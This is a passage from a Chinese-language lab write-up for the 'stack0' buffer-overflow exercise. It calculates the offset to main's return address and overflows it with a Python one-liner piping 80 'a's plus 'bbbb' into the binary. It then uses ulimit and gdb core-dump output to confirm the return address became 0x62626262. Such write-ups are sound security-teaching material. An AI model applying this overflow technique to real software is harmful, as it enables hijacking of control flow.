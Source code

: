 ```
---------------end-------------------

```

也即执行完0x080483f4后esp值为0xffffd4f8,所以要覆盖main_ret,需要输入(0xffffd4f8-0xffffd4ec)/4+16+1+1=21个栈单元=21*4=84B，也即84个字符

main_ret=0xffffd4f8+0x4=0xffffd4fc

```
python -c "print 'a'*80+'bbbb'" | ./stack0     #(此时不可直接print 'a'*80,print不支持)
------------output:------------
you have changed the 'modified' variable
[1]    11055 done                python -c 'print "a"*80+"bbbb"' | 
       11056 segmentation fault  ./stack0
-------------end---------------

gdb -q -c core
--------output:----------
/root/桌面/core: 没有那个文件或目录.
----------end------------

```

解决方法：[http://blog.csdn.net/nuoline/article/details/8610694](http://blog.csdn.net/nuoline/article/details/8610694)

```
ulimit -c
---------output:----------
0
------------end-----------

ulimit -c 2048
python -c 'print "a"*80+"bbbb"' | ./stack0
------------output:--------------
you have changed the 'modified' variable
[1]    11403 done                              python -c 'print "a"*80+"bbbb"' | 
       11404 segmentation fault (core dumped)  ./stack0
--------------end----------------

gdb -q -c core
----------------output:---------------
[New LWP 11404]
Core was generated by `./stack0'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x62626262 in ?? ()
-----------------end------------------

```

从而发现某个函数(main函数)的返回地址被改写成0x62626262(bbbb),从而产生溢出错误

或者：
